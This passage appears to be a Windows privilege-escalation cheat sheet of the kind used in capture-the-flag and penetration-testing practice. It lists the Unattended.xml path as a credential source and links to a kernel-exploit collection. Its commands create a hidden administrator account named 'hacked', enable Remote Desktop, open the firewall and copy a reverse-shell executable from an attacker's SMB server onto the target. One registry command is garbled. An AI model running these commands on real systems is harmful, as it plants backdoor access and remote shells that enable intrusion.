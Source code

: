 ```
C:\Windows\Panther\Unattend\Unattended.xml.
```

### Kernel Exploits

* https://github.com/SecWiki/windows-kernel-exploits

### Admin Service that a Standard User can run

* https://www.youtube.com/watch?v=3BQKpPNlTSo

### Run Executable in Background

```
start /B program
```

### Disable/Enable Group Policy

* Disable:

```
REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /t REG_DWORD /d 1 /f
```

### Enable:

```
REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /0 REG_DWORD /d 1 /f
Add Admin & Enable RDP
net user /add hacked Password1
net localgroup administrators hacked /add
net localgroup Administrateurs hacked /add (For French target)
net localgroup "Remote Desktop Users" hacked /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service type = REMOTEDESKTOP mode = ENABLE scope = CUSTOM addresses = 10.0.0.1
```

### SMB File Transfer

* On kali box:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

* On Windows (update the IP address with your Kali IP):

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```
